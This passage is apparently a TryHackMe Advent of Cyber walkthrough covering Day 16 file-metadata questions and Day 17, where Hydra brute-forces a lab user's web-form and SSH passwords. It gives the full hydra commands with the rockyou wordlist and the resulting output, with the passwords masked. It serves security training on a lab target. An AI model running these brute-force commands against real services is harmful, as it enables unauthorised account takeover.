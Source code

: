 For this task you have to create a python script to automate the task
I have already created the [script](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day16-script.py) but i encourage you to make it yourself but if you stuck than you can get the guidance from here

#### 1. How many files did you extract(excluding all the .zip files)?

> ?0

#### 2. How many files contain Version: 1.1 in their metadata?

> ?

#### 3. Which file contains the password?

> ????.txt

## Day 17 : Hydra-ha-ha-haa

#### 1. Use Hydra to bruteforce molly's web password. What is flag 1? (The flag is mistyped, its THM, not TMH)

```bash
hydra -l molly -P ../../rockyou.txt 10.10.252.242 http-post-form "/login:username=^USER^&password=^PASS^&Login=Login:Your username or password is incorrect."
```

```
Results:
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.                                                                                     
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-25 12:33:46       
[DATA] max 16 tasks per 1 server, overall 16 tasks, 128212 login tries (l:1/p:128212), ~8014 tries per task
[DATA] attacking http-post-form://10.10.100.129:80/login:username=^USER^&password=^PASS^:F=incorrect                                                         
[80][http-post-form] host: 10.10.100.129   login: molly   password: ??????       
1 of 1 target successfully completed, 1 valid password found                       
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-25 12:33:59
```
> enter the creds and you will get the flag

#### 2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

```bash
hydra -l molly -P path/to/wordlist ssh://10.10.252.242
```
```
Hydra Results:
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-25 11:51:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 128212 login tries (l:1/p:128212), ~8014 tries per task
[DATA] attacking ssh://10.10.252.242:22/
[22][ssh] host: 10.10.252.242   login: molly   password: ????????
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
```